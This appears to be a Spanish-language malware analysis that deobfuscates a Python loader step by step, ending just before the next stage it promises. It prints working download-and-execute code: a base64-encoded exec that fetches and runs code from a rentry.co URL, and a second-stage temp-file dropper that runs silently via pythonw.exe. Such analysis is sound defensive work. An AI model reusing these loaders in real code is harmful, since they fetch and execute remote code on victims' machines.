

Aquí vamos a extraer y analizar el código malicioso del script
;import os;os.system('pip install requests');import requests;import base64;exec(base64.b64decode('ZXhlYyhyZXF1ZXN0cy5nZXQoImh0dHBzOi8vcmVudHJ5LmNvLzltdHBkZWR0L3JhdyIpLnRleHQp').decode())
Algunas personas que no saben mucho sobre Python tal vez no estén al tanto de que
Python no requiere el uso obligatorio de punto y coma. Sin embargo, este código es completamente válido en
Python, donde puedes insertar una cantidad exagerada de espacios, dos puntos o punto y coma, y esto puede hacer
que el código sea difícil de entender o descubrir.
Formateamos el código.
import os
os.system('pip install requests')
import requests
import base64
exec(base64.b64decode('ZXhlYyhyZXF1ZXN0cy5nZXQoImh0dHBzOi8vcmVudHJ5LmNvLzltdHBkZWR0L3JhdyIpLnRleHQp').decode())
Vamos a necesitar instalar esas dependencias para poder continuar.
pip install requests base64
Modificamos y ejecutamos
import requests
import base64
print(base64.b64decode('ZXhlYyhyZXF1ZXN0cy5nZXQoImh0dHBzOi8vcmVudHJ5LmNvLzltdHBkZWR0L3JhdyIpLnRleHQp').decode())

Vemos lo que hay detrás
Basicamente hace un request get a esa url donde hay un código que introduce en un txt.
Veamos el código
from tempfile import NamedTemporaryFile as _ffile
from sys import executable as _eexecutable
from os import system as _ssystem
_ttmp = _ffile(delete=False)
_ttmp.write(b"""from urllib.request import urlopen as _uurlopen;exec(_uurlopen("https://rentry.co/6uh8vuwz/raw").read())""")
_ttmp.close()
try: _ssystem(f"start {_eexecutable.replace('.exe', 'w.exe')} {_ttmp.name}")
except: pass
• NamedTemporaryFile de tempfile (como _ffile): Crea un archivo temporal en el
sistema.
• executable de sys (como _eexecutable): Obtiene la ruta del ejecutable de Python
que se está utilizando.
• system de os (como _ssystem): Ejecuta comandos del sistema operativo.
Se crea un archivo temporal mediante NamedTemporaryFile, que no será eliminado
automáticamente (delete=False).
Usa urlopen de urllib.request para descargar y ejecutar código desde la URL
https://rentry.co/6uh8vuwz/raw usando la función exec. Es decir, descarga el contenido en esa URL y lo ejecuta
como código Python.
Luego, intenta ejecutar dicho archivo utilizando pythonw.exe (una versión de Python
que no muestra la ventana de consola).
Es un ejemplo clásico de un descargador de código remoto, comúnmente utilizado en
scripts maliciosos o automatización remota.
Veamos el nuevo código que intenta ejecutar en el siguiente punto.